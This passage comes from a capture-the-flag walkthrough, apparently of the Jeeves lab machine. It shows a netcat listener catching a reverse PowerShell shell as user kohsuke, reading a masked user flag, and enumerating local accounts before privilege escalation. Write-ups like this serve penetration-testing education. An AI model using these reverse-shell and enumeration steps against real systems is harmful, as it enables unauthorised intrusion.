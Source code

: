 Either way, I’ll run the listener with `rlwrap` to make the shell more usable,
and then run the job. There’s a connection at the listener:

    
    
    oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 445
    Listening on 0.0.0.0 445
    Connection received on 10.10.10.63 49676
    whoami
    jeeves\kohsuke
    PS C:\Users\Administrator\.jenkins\workspace\0xdf>
    

It doesn’t show the prompt until after the first command, but once I see
“Connection received on [Jeeves IP]”, I know it’s there.

Despite running as kohsuke, I’m in a directory in the Administrator’s home
directory. Still, I can’t access anything else in here. I’ll visit kohsuke’s
desktop, and grab `user.txt`:

    
    
    PS C:\Users\kohsuke\desktop> cat user.txt
    e3232272************************
    

## Shell as Administrator

### Enumeration

There are no other users on the box besides administrator, so that’s the clear
next target:

    
    
    PS C:\Users> dir
    
    
        Directory: C:\Users
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        11/3/2017  11:07 PM                Administrator
    d-----        11/5/2017   9:17 PM                DefaultAppPool
    d-----        11/3/2017  11:19 PM                kohsuke
    d-r---       10/25/2017   4:46 PM                Public 
    
    PS C:\Users> net user
    
    User accounts for \\JEEVES
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    kohsuke                  
    The command completed successfully.
    

Looking around kohsuke’s home directory, there’s a single file in the
`Documents` folder:
